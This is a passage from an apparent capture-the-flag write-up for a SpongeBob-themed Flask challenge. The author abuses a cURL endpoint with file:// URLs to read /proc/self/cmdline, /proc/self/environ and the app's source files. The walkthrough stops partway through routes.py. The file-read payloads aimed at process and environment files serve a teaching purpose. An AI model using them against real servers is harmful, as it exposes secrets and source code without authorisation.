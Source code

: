 But then I tried accessing `/proc/self/cmdline` as my second approach and we can see it is a python gunicorn gateway application.

```bash
# cmdline
/usr/local/bin/python/usr/local/bin/gunicorn-w4--bind0.0.0.0:8000app:app
```

Hence I tried reading the `app.py` in the current working directory using `file:///proc/self/cwd/app.py`

```python
# app.py

from flask import Flask
from blueprints.routes import httpserver

app = Flask(__name__)
# This web server is the property of Sheldon J. Plankton, 
# please refrain from reading this secret source code.
# I WILL USE THIS ROUTER TO STEAL THE SECRET KRABBY PATTY FORMULA!
app.register_blueprint(httpserver, url_prefix='/')
```
The source code is hidden somehow and we have to find the way to read it as mentioned in the comments of the `app.py`

When I tried to access `/proc/self/environ` it gave me the name of directory --> `/planktonsrouter1ba8b69e`
```bash
# environ
OLDPWD=/PWD=/planktonsrouter1ba8b69e
```
As it is using blueprints we can read the source code through `file:///planktonsrouter1ba8b69e/blueprints/routes.py`

```python
# routes.py

from flask import Flask, request, render_template, Blueprint,send_from_directory
from io import BytesIO
import pycurl 

httpserver = Blueprint('httpserver', __name__)

#@httpserver.route("/docs",methods=["GET"])
#def docs():
#   return """<!doctype html>
#    <h1>Router Docs</h1>
#
#    <h2>Websocket API</h2>
#
#    <strong>TODO: Document how to talk to 
#   Karen's customer service module in ../karen/customerservice.py
#   Also figure out how to use supervisord better.</strong>
#"""
#
# Securely CURL URLs, absolutely no bugs here!

@httpserver.route("/static/<path:path>")
def static(path):
    return send_from_directory('static',path)

@httpserver.route("/cURL",methods=["GET","POST"])
def curl():
    if(request.method == "GET"):
        return render_template('curl.html')
    elif(request.method == "POST"):
```